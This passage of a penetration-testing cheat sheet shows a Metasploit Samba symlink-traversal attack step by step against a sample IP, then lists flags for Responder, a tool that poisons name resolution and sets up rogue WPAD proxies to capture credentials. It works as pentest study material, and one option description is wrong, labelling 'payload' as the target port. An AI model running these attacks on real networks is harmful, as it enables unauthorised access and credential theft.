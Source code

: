     - Some Common Options:

        - `RHOSTS` The Target machine
        - `RPORT` The Target Port
        - `payload` The Target Port

- use Cases

    - SMB Root Access

        ``` bash
        $ sudo msfconsole
        msf6> use auxiliary/admin/smb/samba_symlink_traversal
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > set RHOSTS 192.168.1.159
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > exploit
        msf6 auxiliary(admin/smb/samba_symlink_traversal) > exit
        $ smbclient //192.168.1.159/tmp
        ```

## Name Service Poisoning

- `Responder`
A Tools Used for LLMNR, NBT-NS, MDNS, DNS Poisoning

- Flags:
        
    - `-I interface`, `--interface=<nterface`: Network interface to use, you can use 'ALL' as a wildcard for all interfaces
    - `-A`, `--analyze`: Analyze mode. This option allows you to see NBT-NS, BROWSER, LLMNR requests without responding.
    - `-i IPv4`, `--ip=IPv4`: Local IP to use (only for OSX)
    - `-6 IPv6`, `--externalip6=IPv6`: Poison all requests with another IPv6 address than Responder's one.
    - `-e 10.0.0.22`, `--externalip=10.0.0.22`: Poison all requests with another IP address than Responder's one.
        
    - `-b`, `--basic`: Return a Basic HTTP authentication. Default: NTLM
    - `-d`, `--DHCP`: Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response. Default: False
    - `-D`, `--DHCP-DNS`: This option will inject a DNS server in the DHCP response, otherwise a WPAD server will be added. Default: False
    - `-w`, `--wpad`: Start the WPAD rogue proxy server. Default value is False
    - `-u` `UPSTREAM_PROXY`, `--upstream-proxy=UPSTREAM_PROXY`: Upstream HTTP proxy used by the rogue WPAD Proxy for outgoing requests (format: host:port)
    - `-F`, `--ForceWpadAuth`: Force NTLM/Basic authentication on wpad.dat file retrieval. This may cause a login prompt. Default: False
    - `-P`, `--ProxyAuth`: Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn't need to be ON. This option is highly effective. Default: False
    - `-Q`, `--quiet`: Tell Responder to be quiet, disables a bunch of printing from the poisoners. Default: False
    - `--lm`: Force LM hashing downgrade for Windows XP/2003 and earlier. Default: False
    - `--disable-ess`: Force ESS downgrade. Default: False
    - `-v`, `--verbose`: Increase verbosity.
    - `--version`: version
    - `-h`, `--help`: help
